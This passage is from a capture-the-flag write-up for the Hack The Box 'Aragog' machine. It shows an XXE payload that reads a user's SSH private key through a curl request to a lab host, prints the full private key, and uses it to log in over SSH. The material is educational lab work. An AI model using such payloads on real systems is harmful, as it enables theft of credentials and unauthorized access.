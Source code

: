Success! We can see here that we have two users, florian and cliff. Let's see if we can get someone's SSH private key.

Let's modify our XML again.

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///home/florian/.ssh/id_rsa" >]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>
```

```
root@kali:~/htb/aragog# curl -d @test.txt http://10.10.10.78/hosts.php

There are 4294967294 possible hosts for -----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA50DQtmOP78gLZkBjJ/JcC5gmsI21+tPH3wjvLAHaFMmf7j4d
+YQEMbEg+yjj6/ybxJAsF8l2kUhfk56LdpmC3mf/sO4romp9ONkl9R4cu5OB5ef8
lAjOg67dxWIo77STqYZrWUVnQ4n8dKG4Tb/z67+gT0R9lD9c0PhZwRsFQj8aKFFn
1R1B8n9/e1PB0AJ81PPxCc3RpVJdwbq8BLZrVXKNsg+SBUdbBZc3rBC81Kle2CB+
Ix89HQ3deBCL3EpRXoYVQZ4EuCsDo7UlC8YSoEBgVx4IgQCWx34tXCme5cJa/UJd
d4Lkst4w4sptYMHzzshmUDrkrDJDq6olL4FyKwIDAQABAoIBAAxwMwmsX0CRbPOK
AQtUANlqzKHwbVpZa8W2UE74poc5tQ12b9xM2oDluxVnRKMbyjEPZB+/aU41K1bg
TzYI2b4mr90PYm9w9N1K6Ly/auI38+Ouz6oSszDoBeuo9PS3rL2QilOZ5Qz/7gFD
9YrRCUij3PaGg46mvdJLmWBGmMjQS+ZJ7w1ouqsIANypMay2t45v2Ak+SDhl/SDb
/oBJFfnOpXNtQfJZZknOGY3SlCWHTgMCyYJtjMCW2Sh2wxiQSBC8C3p1iKWgyaSV
0qH/3gt7RXd1F3vdvACeuMmjjjARd+LNfsaiu714meDiwif27Knqun4NQ+2x8JA1
sWmBdcECgYEA836Z4ocK0GM7akW09wC7PkvjAweILyq4izvYZg+88Rei0k411lTV
Uahyd7ojN6McSd6foNeRjmqckrKOmCq2hVOXYIWCGxRIIj5WflyynPGhDdMCQtIH
zCr9VrMFc7WCCD+C7nw2YzTrvYByns/Cv+uHRBLe3S4k0KNiUCWmuYsCgYEA8yFE
rV5bD+XI/iOtlUrbKPRyuFVUtPLZ6UPuunLKG4wgsGsiVITYiRhEiHdBjHK8GmYE
tkfFzslrt+cjbWNVcJuXeA6b8Pala7fDp8lBymi8KGnsWlkdQh/5Ew7KRcvWS5q3
HML6ac06Ur2V0ylt1hGh/A4r4YNKgejQ1CcO/eECgYEAk02wjKEDgsO1avoWmyL/
I5XHFMsWsOoYUGr44+17cSLKZo3X9fzGPCs6bIHX0k3DzFB4o1YmAVEvvXN13kpg
ttG2DzdVWUpwxP6PVsx/ZYCr3PAdOw1SmEodjriogLJ6osDBVcMhJ+0Y/EBblwW7
HF3BLAZ6erXyoaFl1XShozcCgYBuS+JfEBYZkTHscP0XZD0mSDce/r8N07odw46y
kM61To2p2wBY/WdKUnMMwaU/9PD2vN9YXhkTpXazmC0PO+gPzNYbRe1ilFIZGuWs
4XVyQK9TWjI6DoFidSTGi4ghv8Y4yDhX2PBHPS4/SPiGMh485gTpVvh7Ntd/NcI+
7HU1oQKBgQCzVl/pMQDI2pKVBlM6egi70ab6+Bsg2U20fcgzc2Mfsl0Ib5T7PzQ3
daPxRgjh3CttZYdyuTK3wxv1n5FauSngLljrKYXb7xQfzMyO0C7bE5Rj8SBaXoqv
uMQ76WKnl3DkzGREM4fUgoFnGp8fNEZl5ioXfxPiH/Xl5nStkQ0rTA==
-----END RSA PRIVATE KEY-----
```

Excellent! Let's put this into a file and try to SSH in.

```
root@kali:~/htb/aragog# vi florian_key
root@kali:~/htb/aragog# chmod 600 florian_key


root@kali:~/htb/aragog# ssh -i florian_key florian@10.10.10.78
The authenticity of host '10.10.10.78 (10.10.10.78)' can't be established.
ECDSA key fingerprint is SHA256:phu0FjQg/9nCmL2014AJ9yH4akvraA7Ea5QtE59wqD4.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.78' (ECDSA) to the list of known hosts.
Last login: Sun Feb 18 17:06:44 2018 from 10.10.14.7
florian@aragog:~$
```
